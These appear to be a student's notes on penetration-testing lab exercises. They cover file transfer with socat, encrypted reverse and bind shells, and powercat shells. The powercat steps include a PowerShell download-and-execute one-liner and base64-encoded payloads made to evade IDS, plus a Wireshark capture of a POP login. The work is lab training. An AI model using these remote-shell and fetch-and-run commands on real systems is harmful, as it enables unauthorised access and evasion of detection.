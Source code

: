 # 4.2.5 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **socat ** to transfer **powercat.ps1 ** from your Kali machine to your Windows system. Keep the file on your system for use in the next section.
host
`sudo socat TCP4-LISTEN:443,fork file:powercat.ps1`
recipient
`socat TCP4:192.168.119.249:443 file:received_powercat.ps1,create`
![[Pasted image 20220218121253.png]]

2.  Use **socat ** to create an encrypted reverse shell from your Windows system to your Kali machine.
generate the key
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
combine .key and .crt into .pem
`cat bind_shell.key bind_shell.crt > bind_shell.pem`
create listener using .pem and execute shell
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
connect 
`socat - OPENSSL:192.168.119.249:443,verify=0`
![[Pasted image 20220218122213.png]]
# !!SKIPPED QUESTIONS RETURN HERE!!
3.  Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work?
use previously generated .pem
start socat listener
`socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0 STDOUT`
target windows machine do a callback using socat
`socat OPENSSL:192.168.119.218:443,verify=0 EXEC:/bin/bash`

4.  Make an unencrypted **socat ** bind shell on your Windows system. Connect to the shell using Netcat. Does it work?


# 4.3.9 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **PowerShell** and **powercat** to create a reverse shell from your Windows system to your Kali machine.
run dot-sourcing script
`. .\powercat.ps1`
or use iex cmdlet
`iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`
start listener on local machine
`nc -lnvp 9999`
use powershell on remote machine to connect to listener
`powercat -c <IP> -p <PORT> -e cmd.exe`
![[Pasted image 20220218171345.png]]
![[Pasted image 20220218171401.png]]
2.  Use **PowerShell** and **powercat** to create a bind shell on your Windows system and connect to it from your Kali machine. Can you also use **powercat** to connect to it locally?
create bind shell in powershell with powercat
`powercat -l -p 443 -e cmd.exe`
connect with nc on local machine
`nc -nv <IP> <PORT>`
to connect locally using powercat simply run powercat with -c flag in seperate terminal
`powercat -c 127.0.0.1 -p <PORT> `

3.  Use **powercat** to generate an encoded payload and then have it executed through **powershell**. Have a reverse shell sent to your Kali machine, also create an encoded bind shell on your Windows system and use your Kali machine to connect to it.
generate powercat payload
`powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1`
or encade in base64 to avoid IDS
`powercat -c <IP> -p <PORT> -e cmd.exe -ge > encoded_reverseshell.ps1`
start listener on local machine
`nc -lnvp <PORT>`
start reverse shell by running .ps1 file
`.\reversehell.ps1`
or if encoded, running posershell.exe with -E flag and encoded payload
`powershell.exe -E <ENCODED_PAYLOAD_HERE>`
###### easy copy/paste in powershell
`Get-Content C:\Users\user1\.ssh\id_ed25519.pub | Set-Clipboard`
![[Pasted image 20220218173555.png]]
![[Pasted image 20220218173813.png]]

# exercises 4.4.6
#### Exercises

_(To be performed on your own Kali machine - Reporting is required for these exercises)_

1.  Use Wireshark to capture network activity while attempting to connect to 10.11.1.217 on port 110 using Netcat, and then attempt to log into it.
setup filter to only capture traffic on port 110
connect to pop server via nc
`nc -nv <IP> 110`
attempt to log into pop server 
`USER student`
`PASS lab`
![[Pasted image 20220218183021.png]]
2.  Read and understand the output. Where is the three-way handshake happening? Where is the connection closed?


3.  Follow the TCP stream to read the login attempt.


4.  Use the display filter to only monitor traffic on port 110.


5.  Run a new session, this time using the capture filter to only collect traffic on port 110.
